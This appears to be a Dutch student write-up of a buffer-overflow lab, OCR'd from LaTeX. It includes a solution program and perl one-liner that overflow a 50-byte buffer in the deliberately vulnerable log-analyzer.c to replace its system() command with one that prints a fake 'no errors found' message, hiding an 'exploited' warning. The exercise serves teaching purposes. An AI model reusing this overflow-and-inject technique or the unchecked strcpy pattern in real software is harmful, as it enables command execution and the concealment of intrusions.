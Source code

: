 \begin{enumerate}
  \item x/s command
  	\begin{enumerate}
  	\item 0xbffff670: ``echo \textbackslash{}``\textbackslash{}nEPIC TEST\textbackslash{}n\textbackslash{}'' ''
  	\end{enumerate}
  \item Succes. EPIC TEST verschijnt op het scherm.
  \item De opgave zegt dat we nu zelf een programma moeten schrijven die de juiste output genereert.
  \item Een voorbeeldscript:
\end{enumerate}

\begin{lstlisting}
oplossing.c
-----------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* 

Resultaat:
-=-=-=-=-=-
echo "Mail-server: no errors found"
*/

// ./a.out "$(perl -e 'print "A"x64 . "echo \"\nEPIC TEST\n\"\"')"    

int main(int argc, char *argv[]){
	char command[] = "./oef4 \"$(perl -e 'print \"A\"x64 . \"echo \\\"\\n";
	strcat(command, "Mail-server: no errors found");
	strcat(command, "\\n\\\"\"')\"");

	system(command);
}

OUTPUT:
	Mail-server: no errors found
\end{lstlisting}

\begin{lstlisting}
log-analyzer.c
--------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char*argv[]){
	if(argc != 2){
		printf("Gebruik: %s <Server-naam>\n",argv[0]);
		exit(0);
	}

	/* Controleren of server wel bestaat */
	checkServerStatus(argv[1]);
}

int checkServerStatus(char *servernaam){
	char command[75];
	char name[50];

	if(strcmp(servernaam, "Mail-server") == 0){
		strcpy(command, "echo \"\n[ERROR]: Mail-server - r0123456 exploited your mail-server\n\"");
	}else{
		strcpy(command, "echo \"\n[ERROR]: Mail-server is the only registered server\n\"");
	}

	strcpy(name, servernaam);

	system(command);

	return (0);
}
\end{lstlisting}
